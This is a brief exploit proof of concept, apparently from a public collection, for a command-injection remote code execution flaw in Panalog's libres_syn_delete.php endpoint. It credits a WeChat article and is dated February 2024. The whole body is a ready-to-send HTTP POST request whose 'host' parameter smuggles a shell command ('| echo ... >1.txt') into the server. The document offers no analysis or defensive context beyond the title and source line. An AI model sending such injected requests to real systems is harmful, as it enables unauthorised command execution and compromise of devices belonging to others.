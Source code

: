 # panalog_libres_syn_delete_rce


from: https://mp.weixin.qq.com/s/80syPvs6o7ZAAwJ9_xDRAA

2024.02.19 @2

```
POST /content-apply/libres_syn_delete.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
token=1&id=2&host=| echo "Hello World!" >1.txt
```
